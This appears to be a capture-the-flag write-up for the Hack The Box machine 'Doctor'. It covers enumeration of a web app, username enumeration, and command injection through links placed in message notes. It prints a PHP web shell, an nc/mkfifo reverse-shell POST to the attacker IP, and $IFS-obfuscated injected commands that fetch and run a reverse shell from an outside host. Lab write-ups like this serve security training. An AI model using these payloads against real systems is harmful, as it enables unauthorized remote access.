








# 10 - HTTP


# Virtual Host 


Aside from the virtual host reveal, there is not much going on here. The pages are static.


# doctors.htb


Options are:

* Log In
* Sign Up Now
* Forgot Password?

Default credentials like admin:admin are worth a try in this type of situations.

# Username reveal



The login page hardened enough to not reveal anything. On the other hand, register page is being verbose. It warns us if a username is picked already. Username enumeration with wfuzz might come in handy later on.


# Logged in


New message sounds interesting. There may be some interaction going on with the other users.

# New message




Just checking if the users follow links. If that does not work, we will try XSS next

# User Agent: curl



User Agent turns out to be curl, that means probably a shell command is being run every time  we create a note with links. With this in mind, we can try to inject commands .

# Command injection



$IFS variable is a space character. IFS is necessary for our purposes otherwise the server complains.

# Exploit.php
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/doctor/www]
└──╼ $ cat exploit.php 
<?php system($_REQUEST['cmd']);?>
```


# Remote Code Execution
```
┌─[user@parrot]─[10.10.14.14]─[~/htb/doctor/www]
└──╼ $ curl http://10.10.10.209/exp.php?cmd=whoami
www-data

```

Notice we are running as www-data, this will matter in a moment.


# Reverse Shell
```bash
POST /exp.php HTTP/1.1
Host: 10.10.10.209
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 82

cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 4444 >/tmp/f
```

Notice the host header is "`Host: 10.10.10.209`". Not doctors.htb

# www-data


With this user you can't see something you are supposed to.


# doctors.htb is executing under `web` while 10.10.10.209 is executing under `www-data`


This is the shell you get  if you upload `anywhere` and execute on doctors.htb. What we did instead is we uploaded a file as web(doctors.htb) and executed it as www-data(10.10.10.209). The difference is that the user `web` is a member of adm group. adm members can access certain types of logs.


# Upload php-reverse-shell
```
http://10.10.14.14/$(curl$IFS'10.10.14.14/php-reverse-shell.php'$IFS-o$IFS'/var/www/html/exp.php')

##curl 10.10.14.14/php-reverse-shell.php -o /var/www/html/exp.php
```


# Execute
```
http://10.10.14.14/$(php$IFS'/var/www/html/exp.php')

##php /var/www/html/exp.php
```